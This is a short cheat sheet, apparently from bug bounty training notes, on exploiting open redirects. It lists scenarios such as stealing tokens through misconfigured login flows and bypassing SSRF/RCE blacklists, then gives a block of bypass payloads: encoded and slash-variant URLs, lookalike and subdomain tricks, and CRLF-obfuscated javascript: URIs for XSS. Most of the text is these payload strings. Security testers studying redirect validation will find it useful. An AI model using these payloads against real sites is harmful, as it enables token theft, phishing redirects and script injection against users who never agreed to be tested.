 # Scenarios

- Grab tokens via mis-configured apps/login flows
- Bypassing blacklists for SSRF/RCE
- XSS via "location.href = 'javascript:alert(0)1'"
- Taking advantage of fileuploads and mobile devices

# Bypasses

```
https%3A%2F%2Fmysite.com%2F
https%3A%2F%2Fexample.com%2F%3Freturnurl%3D%2F%2Fmysite.com%2F
\/yoururl.com
\/\/yoururl.com
\\yoururl.com
//yoururl.com
//theirsite@yoursite.com
https://yoursite?c=.theirsite.com/
https://yoursite.com#.theirsite.com/
https://yoursite.com\.thersite.com/
//%2F/yoursite.com
////yoursite.com
https://theirsite.computer/ - (if they just check for *theirsite.com*, .computer is a valid tld!
https://theirsite.com.mysite.com - (Treat their domain as subdomain to yours)
/%0D/yoursite.com - (Also try %09, %00, %0a, %07)
java%0d%0ascript%0d%0a:alert(0), j%0d%0aava%0d%0aas%0d%0acrip%0d%0at%0d%0a:confirm`0` ,java%07script:prompt`0` ,java%09scrip%07t:prompt`0`
```
>https://www.bugbountynotes.com/training/tutorial?id=1
